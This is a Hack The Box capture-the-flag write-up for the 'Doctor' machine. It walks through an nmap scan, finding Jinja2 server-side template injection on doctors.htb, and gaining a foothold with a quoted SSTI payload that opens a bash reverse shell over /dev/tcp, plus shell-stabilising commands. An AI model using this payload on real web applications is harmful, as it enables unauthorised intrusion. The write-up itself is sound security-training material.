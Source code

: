 # Hack the box
## Doctor writeup

### Enumeartion / Recon

+ nmap port scan - ```nmap -sC -sV -oN nmap.txt 10.10.10.209```
```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-06T15:57:27
| Not valid after:  2023-09-06T15:57:27
| MD5:   db23:4e5c:546d:8895:0f5f:8f42:5e90:6787
|_SHA-1: 7ec9:1bb7:343f:f7f6:bdd7:d015:d720:6f6f:19e2:098b
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
+ Open ports are
  + ssh on port 22
  + http on port 80
  + splunk on port 8089

+ Nothing interesting found on the website, looks like a static website, checking hostnames
+ Found a hostname ```doctors.htb``` on the website, adding to ```/etc/hosts``` file
+ Visiting doctors.htb sends us to another page
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/cde2e474-48ac-406a-aa38-107b86c7b564)
+ We can register and it creates an account for 20 minutes
+ Checking the source and see something strange - _<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->_
+ We can create posts on this website and it shows us the posts on the homepage
+ Checking /archive directory but nothing interesting
+ Checking the source of /archive and found something interesting, it has xml output of the posts that we create
+ TRYING SSTI hacktricks injection ```{{ 7*7 }}``` and we get 49 on the archive source ```view-source:http://doctors.htb/archive```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/58379fa5-5355-4014-aec1-113cebd7ae90)

+ Testing multiple Server Side Template Injection from https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
+ **SUCCESS** We have successful SSTI
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/7da4af12-c81a-428f-81bd-7caedaf941ff)

### Initial Foothold

+ Checking for reverse shell payloads on PayloadAllTheThings SSTI -
+ The one that worked was - ```{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/<ip>/4444 0>&1'").read()}}{%endif%}{%endfor%}```
+ Starting netcat listener - ```nc -lvnp 4444``` and getting reverse shell as web@doctor
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/2e42813a-dcba-415b-bdbf-b15d7951a808)
+ ```/home``` directory has another user shaun with user.txt file
+ We are part of the admin group, we can check audit logs for passwords
  ```bash
  id
  uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
  ```

### Lateral movement

+ To get user we need access to shaun user
+ Making the shell stable
  1. run this command ```python3 -c 'import pty;pty.spawn("/bin/bash")'``` on victim machine
  2. if the above doesn't work try - ```script -qc /bin/bash /dev/null```
  3. Do **ctrl+z** to background the process
  4. On your host machine in the same session do ```stty raw -echo;fg``` + Enter + Enter
  5. Now you have a stable shell
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/69c9d560-27e9-415b-9dfb-890b9f950dd6)

+ Running Linpeas on the machine
